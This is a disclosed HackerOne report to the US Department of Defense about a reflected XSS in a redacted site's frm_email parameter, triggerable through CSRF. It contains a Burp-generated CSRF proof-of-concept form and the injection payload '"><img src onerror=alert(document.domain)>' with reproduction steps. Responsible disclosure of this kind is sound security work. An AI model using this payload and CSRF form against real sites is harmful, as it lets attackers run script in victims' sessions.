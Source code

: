 # POST based RXSS on https://█████ via frm_email parameter

## Report Details
- **Report ID**: 996535
- **URL**: https://hackerone.com/reports/996535
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-02T13:42:23.523Z
- **Disclosed**: 2021-01-12T21:39:28.400Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Good Afternoon DoD team,

##Summary:
I have discovered that on the following domain https://███████ there is Post-Based reflected XSS vulnerability which i can trigger with CSRF (and Clickjacking) due to unsanitized input inside the frm_email parameter 

##Description

The vulnerable path is: https://███

##CSRF html code for you to reproduce:
```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://███" method="POST">
      <input type="hidden" name="action" value="FFEXT&#95;forgotpw" />
      <input type="hidden" name="token" value="██████████" />
      <input type="hidden" name="frm&#95;email" value="&quot;&gt;&lt;img&#32;src&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="frm&#95;zip5" value="NONE" />
      <input type="hidden" name="cmd&#95;submit" value="Submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

##Steps To Reproduce (As an attacker):
1. Navigate to https://███████
2. Enter arbitrary text on the email field and NONE on the zip field
3. Capture the request on burp, change the payload on the email field to "><img src onerror=alert(document.domain)>
4. Craft a CSRF PoC and an alert will pop upon clicking.
:-)

████████

##PoC Video:

████

##Best Regards,
nagli

## Impact

Attacker can execute JS code on the Victim Behalf.

## Attachments
No attachments
